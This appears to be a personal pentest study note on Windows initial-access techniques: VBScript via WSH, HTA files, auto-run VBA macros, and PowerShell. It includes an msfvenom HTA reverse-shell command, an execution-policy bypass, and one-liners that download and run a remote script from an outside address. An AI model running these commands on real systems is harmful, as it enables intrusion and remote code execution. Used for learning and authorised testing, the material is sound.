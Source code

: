 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

# WSH
- Windows Scripting Host
- Windows Native Engine
- Two executables reponsible for running Visual Basic Scrips:
	- `cscript.exe` : Command line scripts
	- `wscript.exe` : GUI Scripts
- Simple Hello World Script:
```vb
'Can be executed with wscript.exe script.vbs
Dim Message
Message = "Hello World"
MsgBox Message
```
- Run a program with vbs
```vb
Set Shell = Wscript.CreateObject("Wscript.Shell")
Shell.run("C:\Windows\System32\cmd.exe" & Wscript.ScriptFullName),0,True
'Executing the above with wscript.exe payload.exe will run cmd.exe in a new window
'Can also be run with cscript.exe
```
# HTA
- HTML Application, ends with `.hta`
- Dynamic HTML pages that contains `JScript` and `VBscript`
- `mshta.exe` is used to execute `.hta` files.
- Can also be executed automatically with Internet Explorer.
- An `.hta` files that executes binary
```html
<html>
<body>
<script>
	var c = 'cmd.exe';
	new ActiveXobject('Wscript.Shell').Run(c);
</script>
</body>
</html>
```
- This can be hosted with any web server.
- MsfVenom can be used to create a reverse shell with the `.hta` format
```bash
msfvenom -p <payload> LHOST=<ip> LPORT=<ip> -f hta-psh -o reverse.hta
```
- Metasploit exploit `exploit/windows/misc/hta_server` can be used to host a webserver hosting an HTA file.
# VBA
- Visual Basic for Application, implimented by Microsoft for it's application such as Word, Powerpoint using macros.
- Can access Windows Application Programing Interface, and low level APIs.
- Simple VBA Macro to display text:
```vb
Sub Popup()
	MsgBox ("Hello World!")
End Sub
'The above macro can be run by F5
```
- VBA to run code when the document is opened:
```vb
Sub Document_Open()
	Popup
End Sub

Sub AutoOpen()
	Popup
End Sub

Sub Popup()
	MsgBox ("Hello World")
```
- Macro is supported by specific file formats such as 
	- `.doc`
	- `.docm`
 - VBA to run commands: 
```vb
Sub Calc()
	Dim Payload as String
	Payload = "calc.exe"
	CreateObject("Wscript.Shell").Run Payload,0
End Sub
```

# PSH
- Run Powershell scripts bypassing the execution policy
```powershell
powershell.exe -ep bypass File script.ps1
```
- Run Powershell payload after downloading script from internet
```powershell
Invoke-Expression (New-Object System.Net.WebClient).DownloadString('http://172.17.0.1:8888/test.ps1')
# OR
powershell -c "Invoke-Expression (New-Object System.Net.WebClient).DownloadString('http://172.17.0.1:8888/test.ps1')"
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
